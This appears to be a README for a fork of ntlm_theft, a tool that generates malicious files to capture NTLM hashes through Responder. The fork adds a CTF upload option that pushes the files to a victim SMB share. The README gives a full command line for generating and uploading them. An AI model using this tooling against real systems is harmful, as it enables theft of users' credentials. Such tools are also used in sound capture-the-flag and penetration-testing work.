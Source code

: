 This is a fork of [ntlm_theft](https://github.com/Greenwolf/ntlm_theft) A tool to generate malicious files to steal ntlm hashes using responder. 
I have added an optional CTF arg (not realistic for realworld i don't think). This `upload` argument will take all the files generated byt ntlm_theft
and upload them to the victim defined by rserver andd rport


`python3 ntlm_theft.py --generate all --server 127.0.0.1 --filename 'dekstop' --upload -rserver localhost -rport 445 -smbuser guest -smbpass '' -d ./desktop/`


![image](https://github.com/h8handles/ntlm_theftCTF/assets/67421443/53dd92e6-666f-4d55-aadb-06148a327d93)

After normal generation of the malicious files it will take the directory created and upload the files 


_List of files Uploaded_

![image](https://github.com/h8handles/ntlm_theftCTF/assets/67421443/94a6a2fe-fa33-4076-b271-de75ae9227d0)
